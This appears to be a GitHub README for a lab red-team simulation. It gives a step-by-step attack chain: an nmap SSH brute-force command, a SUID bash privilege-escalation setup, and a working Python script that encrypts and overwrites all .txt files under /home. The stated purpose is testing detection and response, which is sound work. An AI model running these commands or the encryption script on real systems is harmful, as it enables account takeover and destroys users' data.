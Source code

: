# Red-Team-Attack simulation

Brute Force → Privilege Escalation → Ransomware Execution

This repository demonstrates a **complete attack chain simulation** in a controlled environment.
The goal is to emulate real-world attacker behavior to test and improve detection, response, and hardening capabilities.


Scenario Overview

> Simulated attack flow:
1. **Brute-force attack** on SSH to gain user credentials.
2. **Access the target system** using stolen credentials.
3. **Privilege escalation** via shell misconfiguration (`/bin/bash -p` or `bash -p`).
4. **Deploy and execute a ransomware-like script** to encrypt files.
5. **de-escalation** 

---

## 🔧 Environment Setup

> Recommended tools & platforms:
- Target OS: **Ubuntu/Kali Linux VM**
- Attacker: **Kali Linux**
- Tools used: `nmap`, `ssh`, `bash`, custom `ransomware.sh` script

---

##  Step 1: Brute Force Attack

Simulate brute-forcing a user account (`victim`) using `nmap`:
nmap --script ssh-brute --script-args userdb=username.txt,passdb=passwords.txt -p 22 10.0.2.10

##  Step 2: login as a normal user 
 ssh user@server-ip

 ##  Step 3: privilege escalation via misconfiguration 
 
   As root, copy /bin/bash to /tmp/bash:
    cp /bin/bash /tmp/bash
    
   Make root the owner and set the SUID bit:
    chown root:root /tmp/bash
    chmod +s /tmp/bash
    
   Now, execute the bash binary as a normal user:
    /tmp/bash -p

##  Step 4:Deploy and execute a ransomware-like script

ransomware script :                    
  
    from cryptography.fernet import Fernet
    import os
    
    # Change to the target directory
    os.chdir("/home/")
    
    # Generate and save a Fernet key (only once, or reuse an existing one)
    key = Fernet.generate_key()
    with open("key.key", "wb") as f:
        f.write(key)
    
    # Initialize Fernet with the key
    fernet = Fernet(key)
    
    # Walk through the directory and encrypt all .txt files
    for root, dirs, files in os.walk(os.getcwd()):
        for file in files:
            if file.endswith(".txt"):
                file_path = os.path.join(root, file)
                
                # Read original content
                with open(file_path, "rb") as f:
                    data = f.read()
                
                # Encrypt the content
                encrypted = fernet.encrypt(data)
                
                # Overwrite the file with encrypted content
                with open(file_path, "wb") as f:
                    f.write(encrypted)


 
    



